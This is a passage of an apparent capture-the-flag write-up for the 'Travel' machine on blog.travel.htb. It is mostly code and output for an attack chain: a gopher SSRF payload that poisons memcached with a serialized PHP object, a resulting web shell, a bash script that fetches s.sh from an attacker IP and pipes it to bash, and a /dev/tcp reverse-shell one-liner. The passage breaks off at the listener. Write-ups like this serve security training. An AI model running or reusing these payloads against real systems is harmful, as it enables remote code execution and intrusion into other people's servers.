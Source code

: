 ```php
```

Running the exploit gives us following payload:

```bash
root@darkness:~# php exploit.php
http://blog.travel.htb/awesome-rss/custom_feed_url=gopher://0:11211/_set xct_4e5612ba079c530a6b1f148c0b352241%200%20100%20142%0D%0AO%3A14%3A%22TemplateHelper%22%3A2%3A%7Bs%3A20%3A%22%00TemplateHelper%00file%22%3Bs%3A11%3A%22chronos.php%22%3Bs%3A20%3A%22%00TemplateHelper%00data%22%3Bs%3A33%3A%22%3C%3Fphp%20system%28%24_REQUEST%5B%22cmd%22%5D%29%3B%3F%3E%22%3B%7D%0D%0A
```

Now we have to access this printed url to trigger the cache-poisoning. Next, we have to access the website again to trigger the deserialization. In order to not having to manually do all these steps, I created a simple bash script to do so:

```bash
#!/bin/bash
echo "Stage 1: Cache-poisoning via SSRF (php-object-injection)"
wget "$(php exploit.php)" -q -O /dev/null

echo "Stage 2: Writing web-shell via arbitrary-write upon deserialization"
curl -s 'http://blog.travel.htb/awesome-rss/?custom_feed_url=http://10.10.14.2/customfeed.xml' >/dev/null

echo "Stage 3: Code execution"
timeout 1 curl -s 'http://blog.travel.htb/wp-content/themes/twentytwenty/logs/chronos.php?cmd=curl+10.10.14.2/s.sh+|bash' >/dev/null
```

This script will do the explained steps and then executes a bash-reverse-shell hosted on our server (`s.sh`).

The reverse-shell `s.sh` looks as follows:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.2/443 0>&1'
```

If we now start a nc-listener and run the exploit, we get following output:

```bash
root@darkness:~# bash exploit.sh 
Stage 1: SSRF to cache-poisoning with php-object-injection
Stage 2: Writing web-shell via arbitrary-write upon deserialization
Stage 3: Code execution
```

On our webserver, we get two connections:

```bash
root@darkness:~# # python -m http.server
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.189 - - [11/Sep/2020 16:41:50] "GET /customfeed.xml HTTP/1.1" 200 -
10.10.10.189 - - [11/Sep/2020 16:41:50] "GET /s.sh HTTP/1.1" 200 -
```

On our listener we get our reverse-shell connection:
